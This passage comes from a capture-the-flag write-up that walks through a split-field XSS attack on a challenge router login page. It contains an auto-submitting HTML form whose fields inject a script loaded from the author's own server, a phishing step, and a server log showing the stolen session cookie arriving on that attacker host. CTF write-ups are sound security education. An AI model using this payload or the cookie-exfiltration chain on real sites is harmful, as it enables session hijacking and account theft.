 Also take note that I am using [HTTPS](https://en.wikipedia.org/wiki/HTTPS) in my URL because the challenge server is also using HTTPS. If we used HTTP then we might have some issues.

I won't go into how to set up HTTPS on EC2, but you can read "[HTTPS setup in Amazon EC2](https://stackoverflow.com/questions/5309910/https-setup-in-amazon-ec2)" to learn how to do it.

Once we have the evil JavaScript ready, let's build our malicious HTML page which will trigger the login request with our malicious JavaScript file when viewed.

```console
[ec2-user@ip-172-31-23-163 ~]$ vim index.html
[ec2-user@ip-172-31-23-163 ~]$ cat index.html 
<form method="post" action="https://router-ui.web.ctfcompetition.com/login">
  <input name="username" value="<script src=https:">
  <input type="password" name="password" value="18.223.182.138/evil.js></script>">
  <button type="submit">Send</button>
</form>
<script>document.forms[0].submit()</script>
```

Notice how I insert the first part of the malicious XSS is the username field. Remember how the output of a failed login left `//` in between both the password and username? Yah, well we are using that to build out the rest of our script just in case they are filtering for those characters!

With all that said and done, we can start out a HTTP Server on our EC2 instances. In this case I simply used Python's[ HTTP Server with SSL](https://blog.anvileight.com/posts/simple-python-http-server/).

```console
[ec2-user@ip-172-31-23-163 ~]$ sudo python3 ./http-server.py       
Serving HTTP on 0.0.0.0 port 443 ...                                                                                        
```

Once we have that setup, let's send the phishing email!

<p align="center"><a href="/images/gctf18-web-18.png"><img src="/images/gctf18-web-18.png"></a></p>

After a few seconds, we should see the following output as Wintersmuted clicks the link!

```console
[ec2-user@ip-172-31-23-163 ~]$ sudo python3 ./http-server.py       
Serving HTTP on 0.0.0.0 port 443 ...                                                                                        
35.241.157.107 - - [09/Feb/2019 01:34:15] "GET /index.html HTTP/1.1" 200 -
35.241.157.107 - - [09/Feb/2019 01:34:15] "GET /flag?c=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja HTTP/1.1" 404 -
```
